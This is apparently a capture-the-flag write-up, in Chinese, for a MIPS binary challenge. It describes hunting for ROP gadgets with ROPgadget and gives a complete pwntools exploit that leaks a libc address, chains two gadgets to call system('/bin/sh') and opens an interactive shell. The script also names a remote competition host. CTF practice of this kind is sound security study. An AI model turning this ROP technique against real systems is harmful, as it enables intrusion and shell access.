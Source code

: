 ### 寻找gadgets

遇到的最大困难是寻找rop的gadget，我们希望调用system("/bin/sh")，需要控制a0寄存器，我发现似乎没有很多的lw命令是直接从栈上拷数据到a0-a4的，一般都是拷到s*寄存器，比如拷贝到s0，再使用move指令拷贝到a1寄存器这样，所以我选择使用下面这条指令找到移动到a0的sx寄存器，再找从栈上移动到sx的指令。

```bash
#0x00042648 : move $v0, $zero ; move $a0, $s0 ; move $t9, $s2 ; jalr $t9
#0x00018154 : lw $ra, 0x24($sp) ; lw $s2, 0x20($sp) ; lw $s1, 0x1c($sp) ; lw $s0, 0x18($sp) ; jr $ra
ROPgadget --binary ./lib/libc.so.0 --only 'lw|jr'  | grep  "s0" | grep "s2" > first
ROPgadget --binary ./lib/libc.so.0 --only 'move|jalr'  | grep  "a0"  > second
```

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='mips',endian='little',os='linux',log_level="DEBUG")
debug = 2

libc = ELF('./lib/libc.so.0')
if debug == 1:
    p = process(["qemu-mipsel-static", "-L", "/home/wz/Desktop/CTF/axb2019/mips_pwn", "./pwn2"])
elif debug == 2:
    p = process(["qemu-mipsel-static", "-g", "1234", "-L", "/home/wz/Desktop/CTF/axb2019/mips_pwn", "./pwn2"])
else:
    p = remote("183.129.189.61",54403)

def exp():
    raw_input()
    p.recvuntil("What's your name:")
    p.send("a"*0x14)
    p.recvuntil("a"*0x14)
    memcpy_addr = u32(p.recvn(4))
    system_addr = memcpy_addr + (0x767a68f0-0x7677ea60)
    libc_base = system_addr - 0x5f8f0
    binsh = memcpy_addr + (0x00061B80-0x37a60)
    log.success("system addr => " + hex(system_addr))
    log.success("binsh addr => " + hex(binsh))
    #
    #0x00042648 : move $v0, $zero ; move $a0, $s0 ; move $t9, $s2 ; jalr $t9
    #0x00018154 : lw $ra, 0x24($sp) ; lw $s2, 0x20($sp) ; lw $s1, 0x1c($sp) ; lw $s0, 0x18($sp) ; jr $ra
    gadget1 = libc_base + 0x00018154
    gadget2 = libc_base + 0x00042648
    payload = 'a'*0x24
    payload += p32(gadget1)
    payload += 'b'*0x18
    payload += p32(binsh)+p32(0)+p32(system_addr)
    payload += p32(gadget2)

    p.send(payload)
    p.interactive()

exp()
```
